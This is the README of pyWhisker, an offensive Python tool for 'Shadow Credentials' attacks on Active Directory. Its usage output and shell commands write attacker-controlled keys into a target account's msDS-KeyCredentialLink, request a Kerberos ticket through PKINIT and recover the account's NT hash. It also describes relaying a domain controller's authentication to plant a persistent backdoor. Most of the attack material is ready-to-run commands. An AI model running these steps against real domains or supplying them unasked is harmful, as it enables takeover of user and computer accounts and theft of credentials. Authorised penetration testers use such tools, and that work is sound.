



# PyWhisker

pyWhisker is a Python equivalent of the original [Whisker](https://github.com/eladshamir/Whisker) made by [Elad Shamir](https://twitter.com/elad_shamir) and written in C#. This tool allows users to manipulate the `msDS-KeyCredentialLink` attribute of a target user/computer to obtain full control over that object.
It's based on [Impacket](https://github.com/SecureAuthCorp/impacket) and on our Python equivalent of [Michael Grafnetter's](https://twitter.com/MGrafnetter) [DSInternals](https://github.com/MichaelGrafnetter/DSInternals) called [PyDSInternals](https://github.com/p0dalirius/pydsinternals).
This tool, along with [Dirk-jan's](https://twitter.com/_dirkjan) [PKINITtools](https://github.com/dirkjanm/PKINITtools) allow for a complete primitive exploitation on UNIX-based systems only.

**Pre-requisites** for this attack are as follows
 1. the target Domain Functional Level must be **Windows Server 2016** or above.
 2. the target domain must have at least one Domain Controller running Windows Server 2016 or above.
 3. the Domain Controller to use during the attack must have its own certificate and keys (this means either the organization must have AD CS, or a PKI, a CA or something alike).
 4. the attacker must have control over an account able to write the `msDs-KeyCredentialLink` attribute of the target user or computer account.

Why some pre-reqs?
 - Pre-reqs 1 and 2 because the PKINIT features were introduced with Windows Server 2016.
 - Pre-req 3 because the DC needs its own certificate and keys for the session key exchange during the `AS_REQ <-> AS_REP` transaction.

A `KRB-ERROR (16) : KDC_ERR_PADATA_TYPE_NOSUPP` will be raised if pre-req 3 is not met.

More information about this "Shadow Credentials" primitive
 - [Shadow Credentials: Abusing Key Trust Account Mapping for Takeover](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab)
 - [The Hacker Recipes - ACEs abuse](https://www.thehacker.recipes/active-directory-domain-services/movement/access-control-entries)
 - [The Hacker Recipes - Shadow Credentials](https://www.thehacker.recipes/active-directory-domain-services/movement/access-control-entries/shadow-credentials)

# Usage

pyWhisker can be used to operate various actions on the msDs-KeyCredentialLink attribute of a target
- [list](https://github.com/ShutdownRepo/pywhisker#list-and-get-info): list all current KeyCredentials ID and creation time
- [info](https://github.com/ShutdownRepo/pywhisker#list-and-get-info): print all info contained in a KeyCredential structure
- [add](https://github.com/ShutdownRepo/pywhisker#add-new-values): add a new KeyCredential to the `msDs-KeyCredentialLink`
- [remove](https://github.com/ShutdownRepo/pywhisker#clear-and-remove): remove a KeyCredential from the `msDs-KeyCredentialLink`
- [clear](https://github.com/ShutdownRepo/pywhisker#clear-and-remove): remove all KeyCredentials from the `msDs-KeyCredentialLink`
- [export](https://github.com/ShutdownRepo/pywhisker#import-and-export): export all KeyCredentials from the `msDs-KeyCredentialLink` in JSON
- [import](https://github.com/ShutdownRepo/pywhisker#import-and-export): overwrite the `msDs-KeyCredentialLink` with KeyCredentials from a JSON file

pyWhisker supports the following authentications
 - (NTLM) Cleartext password
 - (NTLM) [Pass-the-hash](https://www.thehacker.recipes/active-directory-domain-services/movement/lm-and-ntlm/pass-the-hash)
 - (Kerberos) Cleartext password
 - (Kerberos) [Pass-the-key](https://www.thehacker.recipes/active-directory-domain-services/movement/kerberos/pass-the-key) / [Overpass-the-hash](https://www.thehacker.recipes/active-directory-domain-services/movement/kerberos/overpass-the-hash)
 - (Kerberos) [Pass-the-cache](https://www.thehacker.recipes/active-directory-domain-services/movement/kerberos/pass-the-cache) (type of [Pass-the-ticket](https://www.thehacker.recipes/active-directory-domain-services/movement/kerberos/pass-the-ticket))

Among other things, pyWhisker supports multi-level verbosity, just append `-v`, `-vv`, ... to the command :)

```
usage: pywhisker.py [-h] -t TARGET_SAMNAME [-a [{list,add,remove,clear,info,export,import}]] [--use-ldaps] [-v] [-q] [--dc-ip ip address] [-d DOMAIN] [-u USER]
                    [--no-pass | -p PASSWORD | -H [LMHASH:]NTHASH | --aes-key hex key] [-k] [-P PFX_PASSWORD] [-f FILENAME] [-e {PEM, PFX}] [-D DEVICE_ID]

Python (re)setter for property msDS-KeyCredentialLink for Shadow Credentials attacks.

optional arguments:
  -h, --help            show this help message and exit
  -t TARGET_SAMNAME, --target TARGET_SAMNAME
                        Target account
  -a [{list,add,remove,clear,info,export,import}], --action [{list,add,remove,clear,info,export,import}]
                        Action to operate on msDS-KeyCredentialLink
  --use-ldaps           Use LDAPS instead of LDAP
  -v, --verbose         verbosity level (-v for verbose, -vv for debug)
  -q, --quiet           show no information at all

authentication & connection:
  --dc-ip ip address    IP Address of the domain controller or KDC (Key Distribution Center) for Kerberos. If omitted it will use the domain part (FQDN) specified in the identity parameter
  -d DOMAIN, --domain DOMAIN
                        (FQDN) domain to authenticate to
  -u USER, --user USER  user to authenticate with

  --no-pass             don't ask for password (useful for -k)
  -p PASSWORD, --password PASSWORD
                        password to authenticate with
  -H [LMHASH:]NTHASH, --hashes [LMHASH:]NTHASH
                        NT/LM hashes, format is LMhash:NThash
  --aes-key hex key     AES key to use for Kerberos Authentication (128 or 256 bits)
  -k, --kerberos        Use Kerberos authentication. Grabs credentials from .ccache file (KRB5CCNAME) based on target parameters. If valid credentials cannot be found, it will use the ones specified in the
                        command line

arguments when setting -action to add:
  -P PFX_PASSWORD, --pfx-password PFX_PASSWORD
                        password for the PFX stored self-signed certificate (will be random if not set, not needed when exporting to PEM)
  -f FILENAME, --filename FILENAME
                        filename to store the generated self-signed PEM or PFX certificate and key, or filename for the "import"/"export" actions
  -e {PEM, PFX}, --export {PEM, PFX}
                        choose to export cert+private key in PEM or PFX (i.e. #PKCS12) (default: PFX))

arguments when setting -action to remove:
  -D DEVICE_ID, --device-id DEVICE_ID
                        device ID of the KeyCredentialLink to remove when setting -action to remove
```

Below are examples and screenshots of what PyWhisker can do.

## List and get info

PyWhisker has the ability to list existing KeyCredentials. In addition to that, it can unfold the whole structure to show every piece of information that object contains (including the RSA public key parameters).

```shell
python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "list"
python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "info" --device-id 6419739b-ff90-f5c7-0737-1331daeb7db6
```



## Clear and remove

pyWhisker has the ability to remove specific values or clear the whole attribute.

```shell
python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "remove" --device-id a8ce856e-9b58-61f9-8fd3-b079689eb46e
```


```shell
python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "clear"
```


## Add new values

pyWhisker has the ability to generate RSA keys, a X509 certificate, a KeyCredential structure, and to write the necessary information as new values of the `msDs-KeyCredentialLink` attribute.
The certificate can be exported in a PFX format (#PKCS12, certificate + private key protected with a password) or in a PEM format (PEM certificate, PEM private key, no password needed).

### Example with the PFX format

```shell
python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "add" --filename test1
```


Once the values are generated and added by pyWhisker, a TGT can be request with [gettgtpkinit.py](https://github.com/dirkjanm/PKINITtools/blob/master/gettgtpkinit.py). The NT hash can then be recovered with [getnthash.py](https://github.com/dirkjanm/PKINITtools/blob/master/getnthash.py).

```shell
python3 PKINITtools/gettgtpkinit.py -cert-pfx test1.pfx -pfx-pass xl6RyLBLqdhBlCTHJF3R domain.local/user2 user2.ccache
python3 PKINITtools/getnthash.py -key f4d6738897808edd3868fa8c60f147366c41016df623de048d600d4e2f156aa9 domain.local/user2
```


### Example with the PEM format

```shell
python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "add" --filename test2 --export PEM
```


Once the values are generated and added by pyWhisker, a TGT can be request with [gettgtpkinit.py](https://github.com/dirkjanm/PKINITtools/blob/master/gettgtpkinit.py). The NT hash can then be recovered with [getnthash.py](https://github.com/dirkjanm/PKINITtools/blob/master/getnthash.py).

```shell
python3 PKINITtools/gettgtpkinit.py -cert-pem test2_cert.pem -key-pem test2_priv.pem domain.local/user2 user2.ccache
python3 PKINITtools/getnthash.py -key 894fde81fb7cf87963e4bda9e9e288536a0508a1553f15fdf24731731cecad16 domain.local/user2
```


### Import and Export

KeyCredentials stored in the `msDs-KeyCredentialLink` attribute can be parsed, structured and saved as JSON.


The JSON export can then be used to restore the `msDs-KeyCredentialLink` attribute in the state it was at the time of export.


# Relayed authentication

[A Pull Request](https://github.com/SecureAuthCorp/impacket/pull/1132) is currently awaiting approval to include pywhisker's "adding" feature to ntlmrelayx.



# Useful knowledge

User objects can't edit their own `msDS-KeyCredentialLink` attribute. **Computer objects can**. This means the following scenario could work: trigger an NTLM authentication from DC01, relay it to DC02, make pywhisker edit DC01's attribute to create a Kerberos PKINIT pre-authentication backdoor on it.

  

Computer objects can edit their own `msDS-KeyCredentialLink` attribute but **can only add a KeyCredential if none already exists**.



If you encounter errors, make sure there is no time skew between your attacker host and the Key Distribution Center (usually the Domain Controller). In order to avoid that error, the certificates generated by the pyWhisker tool are valid 40 years before the current date and 40 years after.

# Credits and references

 - Credits to [Dirk-jan](https://twitter.com/_dirkjan) for his work on [PKINITtools](https://github.com/dirkjanm/PKINITtools/). We initially planned on refactoring Impacket scripts (especially [gettgt.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/getTGT.py)) to implement asymmetric PKINIT pre-authentication for Kerberos. He saved us a huge deal of headaches by writing it before us!
 
 - Credits to the whole team behind [Impacket](https://github.com/SecureAuthCorp/impacket/) and its contributors.
 
 - Credits to [Elad Shamir](https://twitter.com/elad_shamir) who created the original C# tool ([Whisker](https://github.com/eladshamir/Whisker)) and to [Michael Grafnetter's](https://twitter.com/MGrafnetter) who made [DSInternals](https://github.com/MichaelGrafnetter/DSInternals), a library doing most of Whisker's heavy lifting. He also was the one who made the original Black Hat demo presenting the attack primitive.
